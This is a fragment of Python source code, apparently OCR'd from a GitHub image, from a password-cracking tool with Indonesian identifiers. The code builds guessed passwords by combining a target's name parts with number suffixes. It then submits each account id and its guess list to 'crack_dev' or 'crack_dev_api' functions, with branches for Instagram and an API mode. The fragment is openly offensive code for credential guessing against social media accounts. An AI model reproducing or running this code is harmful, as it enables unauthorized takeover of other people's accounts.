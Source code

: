 								if "4" in pilih:
									for dev in angka_nama:
										if len(dev) < 3 and len(pw[1]) == 3:
											pass
										else:
											pas.append(pw[1]+dev)

									for dev in angka_nama:
										pas.append(pw[1]+pw[2]+dev)
									pas.append(pw[1]+pw[2])
									pas.append(pw[1]+" "+pw[2])

							else:
								for dev in angka_nama:
									if len(dev) < 3 and len(pw[1]) == 3:
										pass
									else:
										pas.append(pw[1]+dev)
						else:
							if len(pw) >= 3:
								for dev in angka_nama:
									pas.append(pw[1]+pw[2]+dev)
								pas.append(pw[1]+pw[2])

							else:
								for dev in angka_nama:
									if len(dev) < 3:
										pas.append(pw[1]+pw[1]+dev+dev)
									else:
										pas.append(pw[1]+pw[1]+dev)
						pas = pas+san_manual
					if "Dev" in san_ttl:
						if ">>>" in data_:
							tl_dev = []
							pw = pw[0].split(">>>")
							tl = str(pw[1])
							tl_ = tl.replace("/", "")
							tl_dev.append(tl_)
							if len(tl_dev[0]) < 6:
								pass
							else:
								pas = pas+tl_dev
			
					if "IqbalDev" in instagram:
						if ">>>" in data_:
							id_dev_gans = _id_dev_.split(">>>")
							c_dev.submit(crack_dev, id_dev_gans, pas)
						else:
							c_dev.submit(crack_dev, _id_dev_, pas)

					elif "IqbalDev" in b_api:
						if ">>>" in data_:
							id_dev_gans = _id_dev_.split(">>>")
							c_dev.submit(crack_dev_api, id_dev_gans, pas)
						else:
							c_dev.submit(crack_dev_api, _id_dev_, pas)
